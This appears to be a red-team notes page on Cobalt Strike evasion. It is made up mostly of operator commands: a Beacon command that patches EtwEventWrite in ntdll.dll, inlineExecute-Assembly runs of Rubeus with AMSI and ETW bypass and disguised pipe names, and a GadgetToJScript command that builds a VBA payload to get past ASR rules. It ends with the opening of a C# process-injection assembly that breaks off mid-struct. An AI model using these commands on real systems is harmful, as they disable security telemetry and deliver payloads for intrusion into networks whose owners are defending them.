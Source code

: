 ### ETW

Beacon command to patch ETW:
```
execute-assembly "PATCHES: ntdll.dll,EtwEventWrite,0,C3 ntdll.dll,EtwEventWrite,1,00" C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe
```

### run assembly without fork and run with the inLineAssembly BOF

Load the inLineExecute-Assembly.cna under C:\Tools

```
inlineExecute-Assembly --dotnetassembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe --assemblyargs klist --amsi --etw
///You may also change the names of the AppDomain and named pipe from their default values of "totesLegit" using the `--appdomain` and `--pipe` options.
inlineExecute-Assembly --dotnetassembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe --assemblyargs klist --amsi --etw --appdomain SharedDomain --pipe dotnet-diagnostic-1337

```


## ASR

### GadgetToJScript

Make changes to TestAssembly for your code and build it, then run this to create the vba:

```
.\GadgetToJScript\bin\Release\GadgetToJScript.exe -w vba -b -e hex -o C:\Payloads\inject -a .\TestAssembly\bin\Release\TestAssembly.dll
```

TestAssembly code:
```
using System;
using System.Net;
using System.Runtime.InteropServices;
using System.Windows.Forms;

namespace TestAssembly
{
    public class Program
    {
        [StructLayout(LayoutKind.Sequential)]
        public struct STARTUPINFO
        {
            public int cb;
            public string lpReserved;
            public string lpDesktop;
            public string lpTitle;
            public int dwX;
            public int dwY;
            public int dwXSize;
            public int dwYSize;
            public int dwXCountChars;
            public int dwYCountChars;
            public int dwFillAttribute;
            public int dwFlags;
            public short wShowWindow;
            public short cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
```
